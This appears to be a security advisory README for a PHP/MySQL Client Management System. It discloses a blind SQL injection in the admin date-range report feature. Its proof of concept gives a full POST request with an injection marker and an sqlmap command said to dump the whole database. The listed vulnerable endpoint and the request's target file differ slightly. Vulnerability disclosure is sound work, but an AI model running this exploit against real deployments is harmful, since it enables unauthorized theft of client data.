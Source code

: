 # Client-Management-System (v1.0)

## Overview

The Client Management System (CMS) is a web-based application developed using PHP and MySQL for the effective management of client information. This repository contains the source code and comprehensive details of the system, along with a report highlighting a security vulnerability.

**Auditor:**  
Haneen Gufran - [LinkedIn](https://www.linkedin.com/in/haneen-gufran-a8b4a6227)

---

## Security Vulnerability Report

### Description

A **Blind SQL Injection** vulnerability has been identified within the Client Management System. The vulnerability is found in the `Between Dates Reports` parameter in the date functionality of the application.

- **Vulnerable Endpoint:**  
  `clientms/admin/bwdates-reports-ds.php`
  
- **Vulnerable Parameter:**  
  `Between Dates Reports`

The input field for the `Between Dates Reports` feature is not properly sanitized, allowing attackers to inject malicious SQL queries. If exploited, this vulnerability could provide unauthorized access to sensitive database information.

### Proof of Concept (PoC)

#### Vulnerable URL
```plaintext
clientms/admin/bwdates-reports-ds.php

#### Example POST Request

```http
POST /clientms/admin/bwdates-reports-details.php HTTP/1.1
Host: localhost
Content-Length: 345
Cache-Control: max-age=0
sec-ch-ua: "Not;A=Brand";v="24", "Chromium";v="128"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCxxk35suiVL6Px2B
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/clientms/admin/bwdates-reports-ds.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=p4cek0j306h831oqgio6cb0fid
Connection: keep-alive

------WebKitFormBoundaryCxxk35suiVL6Px2B
Content-Disposition: form-data; name="fromdate"

*
------WebKitFormBoundaryCxxk35suiVL6Px2B
Content-Disposition: form-data; name="todate"

0093-08-22
------WebKitFormBoundaryCxxk35suiVL6Px2B
Content-Disposition: form-data; name="submit"


------WebKitFormBoundaryCxxk35suiVL6Px2B--
```

1. Save the above POST Request to req.txt using notepad or any text editor.

2. Use tool such as SQLMAP to exploit the above by applying this command (you can customize yours): sqlmap -r req.txt --dbs --random-agent --level 3 --risk 3

The above command will dump the entire database of the web application.
